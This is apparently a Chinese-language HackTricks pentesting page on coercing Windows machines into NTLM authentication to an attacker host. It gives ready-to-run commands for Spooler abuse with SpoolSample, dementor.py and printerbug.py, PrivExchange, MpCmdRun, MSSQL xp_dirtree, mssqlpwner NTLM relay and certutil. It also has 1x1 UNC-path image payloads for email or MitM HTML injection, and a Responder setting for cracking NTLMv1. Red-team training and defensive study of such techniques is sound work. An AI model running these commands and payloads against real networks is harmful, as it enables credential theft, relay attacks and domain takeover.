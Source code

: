 # 强制 NTLM 特权认证

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}

## SharpSystemTriggers

[**SharpSystemTriggers**](https://github.com/cube0x0/SharpSystemTriggers) 是一个 **远程认证触发器的集合**，使用 C# 编写，采用 MIDL 编译器以避免第三方依赖。

## 打印机后台处理服务滥用

如果 _**打印后台处理程序**_ 服务 **已启用**，您可以使用一些已知的 AD 凭据向域控制器的打印服务器 **请求** 新打印作业的 **更新**，并告诉它 **将通知发送到某个系统**。\
请注意，当打印机将通知发送到任意系统时，它需要 **对该系统进行认证**。因此，攻击者可以使 _**打印后台处理程序**_ 服务对任意系统进行认证，而该服务将在此认证中 **使用计算机账户**。

### 在域中查找 Windows 服务器

使用 PowerShell 获取 Windows 计算机的列表。服务器通常是优先考虑的，因此我们将重点放在这里：
```bash
Get-ADComputer -Filter {(OperatingSystem -like "*windows*server*") -and (OperatingSystem -notlike "2016") -and (Enabled -eq "True")} -Properties * | select Name | ft -HideTableHeaders > servers.txt
```
### 查找监听的Spooler服务

使用稍微修改过的@mysmartlogin（Vincent Le Toux）的[SpoolerScanner](https://github.com/NotMedic/NetNTLMtoSilverTicket)，查看Spooler服务是否在监听：
```bash
. .\Get-SpoolStatus.ps1
ForEach ($server in Get-Content servers.txt) {Get-SpoolStatus $server}
```
您还可以在Linux上使用rpcdump.py并查找MS-RPRN协议
```bash
rpcdump.py DOMAIN/USER:PASSWORD@SERVER.DOMAIN.COM | grep MS-RPRN
```
### 请求服务对任意主机进行身份验证

您可以从这里编译[ **SpoolSample**](https://github.com/NotMedic/NetNTLMtoSilverTicket)**.**
```bash
SpoolSample.exe <TARGET> <RESPONDERIP>
```
或使用 [**3xocyte's dementor.py**](https://github.com/NotMedic/NetNTLMtoSilverTicket) 或 [**printerbug.py**](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py) 如果你在 Linux 上
```bash
python dementor.py -d domain -u username -p password <RESPONDERIP> <TARGET>
printerbug.py 'domain/username:password'@<Printer IP> <RESPONDERIP>
```
### 结合不受限制的委托

如果攻击者已经攻陷了一台具有[不受限制的委托](unconstrained-delegation.md)的计算机，攻击者可以**使打印机对该计算机进行身份验证**。由于不受限制的委托，**打印机的计算机帐户的TGT**将被**保存在**具有不受限制委托的计算机的**内存**中。由于攻击者已经攻陷了该主机，他将能够**检索此票证**并加以利用（[Pass the Ticket](pass-the-ticket.md)）。

## RCP 强制身份验证

{% embed url="https://github.com/p0dalirius/Coercer" %}

## PrivExchange

`PrivExchange`攻击是由于在**Exchange Server `PushSubscription`功能**中发现的缺陷。此功能允许任何具有邮箱的域用户强制Exchange服务器通过HTTP对任何客户端提供的主机进行身份验证。

默认情况下，**Exchange服务以SYSTEM身份运行**，并被赋予过多的权限（具体来说，它在2019年之前的累积更新上具有**WriteDacl权限**）。此缺陷可以被利用以启用**向LDAP中转信息并随后提取域NTDS数据库**。在无法向LDAP中转的情况下，此缺陷仍可用于在域内中转和对其他主机进行身份验证。成功利用此攻击将立即授予任何经过身份验证的域用户帐户对域管理员的访问权限。

## 在Windows内部

如果您已经在Windows机器内部，可以使用以下方法强制Windows使用特权帐户连接到服务器：

### Defender MpCmdRun
```bash
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0\MpCmdRun.exe -Scan -ScanType 3 -File \\<YOUR IP>\file.txt
```
### MSSQL
```sql
EXEC xp_dirtree '\\10.10.17.231\pwn', 1, 1
```
[MSSQLPwner](https://github.com/ScorpionesLabs/MSSqlPwner)
```shell
# Issuing NTLM relay attack on the SRV01 server
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -link-name SRV01 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on chain ID 2e9a3696-d8c2-4edd-9bcc-2908414eeb25
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -chain-id 2e9a3696-d8c2-4edd-9bcc-2908414eeb25 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on the local server with custom command
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth ntlm-relay 192.168.45.250
```
或使用这个其他技术: [https://github.com/p0dalirius/MSSQL-Analysis-Coerce](https://github.com/p0dalirius/MSSQL-Analysis-Coerce)

### Certutil

可以使用 certutil.exe lolbin（微软签名的二进制文件）来强制 NTLM 认证：
```bash
certutil.exe -syncwithWU  \\127.0.0.1\share
```
## HTML 注入

### 通过电子邮件

如果你知道想要攻陷的机器上用户的 **电子邮件地址**，你可以直接给他发送一封 **带有 1x1 图像** 的电子邮件，例如
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
和当他打开它时，他会尝试进行身份验证。

### MitM

如果你可以对一台计算机执行MitM攻击并在他可视化的页面中注入HTML，你可以尝试在页面中注入如下图像：
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
## 破解 NTLMv1

如果你能捕获 [NTLMv1 挑战，请阅读如何破解它们](../ntlm/#ntlmv1-attack)。\
_请记住，为了破解 NTLMv1，你需要将 Responder 挑战设置为 "1122334455667788"_

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** 上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}

